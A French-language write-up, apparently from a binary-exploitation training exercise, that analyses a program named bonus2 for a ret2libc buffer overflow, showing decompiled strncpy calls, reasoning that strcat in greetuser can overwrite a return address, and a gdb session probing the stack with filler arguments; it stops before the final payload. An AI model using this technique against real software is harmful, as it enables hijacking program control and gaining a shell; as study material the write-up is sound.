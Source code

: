 # Ret2libc Exploitation

En décompilant l'exécutable, on remarque que le programme prend 2 arguments. En explorant le code du programme, on remarque qu'il n'y a pas d'appel `system` pour lancer un `shell`. Il semblerait donc que nous allons devoir effectuer une redirection d'adresse pour lancer notre propre `shell`. On remarque également des appels aux fonctions `strncpy`, `memcmp`. Seulement, ces fonctions ne semblent pas exploitables pour écraser une adresse. En revanche, le programme fait appel à `strcat` dans la fonction `greetuser` et semble concaténer un de nos arguments. Nous pouvons donc supposer qu'un exploit est possible ici. Plus précisement, nous pourrions utiliser cet appel à `strcat` pour écraser l'adresse de retour de la fonction `greetuser`.

Vérifions cette hypothèses. Intéressons-nous d'abord aux `strcpy` dans la fonction `main`. Ceux-ci copient nos arguments à un emplacement mémoire.
```c
pcStack172 = envp[1];
uStack168 = 0x28;
strncpy();
pcStack172 = envp[2];
uStack168 = 0x20;
strncpy();
```
Le premier `strcpy` copie `0x28` (`40` en base 10) octets du premier argument en mémoire. Le second copie `0x20` (`32` en base 10) octets du second argument. Observons l'endroit où ils sont copiés. Remplissons ces emplacements et imprimons la mémoire après l'appel du second `strcpy`.
```
> gdb bonus2
[...]
> (gdb) disas main
[...]
   0x08048574 <+75>:	mov    %eax,(%esp)
   0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:	mov    0xc(%ebp),%eax
   0x0804857f <+86>:	add    $0x8,%eax
   0x08048582 <+89>:	mov    (%eax),%eax
   0x08048584 <+91>:	movl   $0x20,0x8(%esp)
   0x0804858c <+99>:	mov    %eax,0x4(%esp)
   0x08048590 <+103>:	lea    0x50(%esp),%eax
   0x08048594 <+107>:	add    $0x28,%eax
   0x08048597 <+110>:	mov    %eax,(%esp)
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:	movl   $0x8048738,(%esp)
[...]
> (gdb) b *0x0804859f
Breakpoint 1 at 0x804859f
> (gdb) set args `python -c 'print "A"*40'` `python -c 'print "B"*32'`
> (gdb) r
Starting program: /home/user/bonus2/bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*32'`

Breakpoint 1, 0x0804859f in main ()
> (gdb) x/50wx $esp
0xbffff630:	0xbffff6a8	0xbffff8e3	0x00000020	0xb7fff918
                        ^
                        adresse de copie du
                        second argument
0xbffff640:	0x00000000	0x00000000	0x00000000	0xb7fd0ff4
0xbffff650:	0xbffff69e	0xbffff69f	0x00000001	0xb7ec3c49
0xbffff660:	0xbffff69f	0xbffff69e	0x00000000	0xb7ff3fec
0xbffff670:	0xbffff724	0x00000000	0x00000000	0xb7e5ec73
0xbffff680:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            premier argument
0xbffff690:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6a0:	0x41414141	0x41414141	0x42424242	0x42424242
```